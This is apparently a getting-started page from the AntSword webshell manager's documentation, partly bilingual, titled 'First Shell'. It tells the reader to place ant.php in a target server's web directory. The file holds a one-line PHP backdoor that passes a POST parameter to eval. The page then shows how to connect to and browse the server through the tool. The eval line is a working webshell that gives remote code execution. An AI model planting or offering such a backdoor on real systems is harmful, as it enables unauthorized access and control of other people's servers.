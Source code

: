First Shell
---

> This section will teach you how to add a webshell quickly.

They are as follows：

> Take `PHP` as an Example:

##### 1.create a shell file under specific web directory in your target server在目标服务器的Web目录下新建一个Shell

File Name: `ant.php`

Contents:

```
<?php eval($_POST['ant']); ?>
```

![][img_first_shell_1]

##### 2.Open AntSword, `right click` in the blank, select 「`add data`」 in the popped-up menu.

![][img_first_shell_2]

##### 3.Fill in anything needed in popped-up window.

![][img_first_shell_3]

Then, click `click` button. You should be able to see the webshell you've just added.

![][img_first_shell_4]

##### 4.Double-click the shell you've just added, then you should be able to see the main interface of file manager.

![][img_first_shell_5]

> All is that simple! ：）

[img_first_shell_1]: http://7xtigg.com1.z0.glb.clouddn.com/doc/getting_started/first_shell_1.jpg
[img_first_shell_2]: http://7xtigg.com1.z0.glb.clouddn.com/doc/getting_started/first_shell_2.jpg
[img_first_shell_3]: http://7xtigg.com1.z0.glb.clouddn.com/doc/getting_started/first_shell_3.jpg
[img_first_shell_4]: http://7xtigg.com1.z0.glb.clouddn.com/doc/getting_started/first_shell_4.jpg
[img_first_shell_5]: http://7xtigg.com1.z0.glb.clouddn.com/doc/getting_started/first_shell_5.jpg
